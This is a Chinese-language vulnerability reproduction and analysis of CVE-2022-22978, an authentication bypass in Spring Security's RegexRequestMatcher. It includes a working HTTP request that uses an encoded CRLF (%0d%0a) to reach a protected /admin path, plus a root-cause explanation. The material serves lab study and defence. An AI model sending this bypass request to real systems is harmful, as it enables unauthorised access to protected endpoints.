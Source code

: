 # CVE-2022-22978 认证绕过漏洞

https://github.com/XuCcc/VulEnv/tree/master/springboot/cve_2022_22978

vulhub也有这个环境

当Spring-security使用 RegexRequestMatcher 进行权限配置，由于RegexRequestMatcher正则表达式配置权限的特性，正则表达式中包含“.”时，未经身份验证攻击者可以通过构造恶意数据包绕过身份认证。

**影响版本**

Spring Security 5.5.x < 5.5.7

Spring Security 5.6.x < 5.6.4

## 漏洞复现

```http
GET /admin/1%0d%0a HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E8E29D0409C6C153D1C825E11A344082
Connection: close
```

![image-20230807180734754](images/1.png)

## 漏洞分析

![image-20230807180436852](images/2.png)

![image-20230807180427182](images/3.png)

对/admin路由下，任意路径进行匹配，在访问/admin/{name}接口时，需要认证才能访问

spring-security-web-5.6.3.jar包中，org.springframework.security.web.uti.matcher.RegexRequestMatcher#matchers中

![image-20230807180850900](images/4.png)

request.getServletPath()会对字符解码 并且会将`;`之后的字符到`/`字符删除，随后通过getServletPath获取URL，尝试提取？后的参数进行拼接，然后使用正则表达式匹配。

其中HTTPServletRequest中对URL路径的几种解析方法。

```
request.getRequestURL()：返回全路径；
request.getRequestURI()：返回除去Host（域名或IP）部分的路径；
request.getContextPath()：返回工程名部分，如果工程映射为/，则返回为空；
request.getServletPath()：返回除去Host和工程名部分的路径；
request.getPathInfo()：仅返回传递到Servlet的路径，如果没有传递额外的路径信息，则此返回Null；
```

对于正则表达式，在正则表达式中元字符`“.”`是匹配除换行符（\n、\r）之外的任何单个字符，在java中的正则默认情况下“.”也同样不会包含\n、\r字符，所以RegexRequestMatcher在进行正则匹配时不会处理\n、\r，所以对于匹配来说，可以用\r\n这种方式绕过





参考链接：

https://www.freebuf.com/vuls/343980.html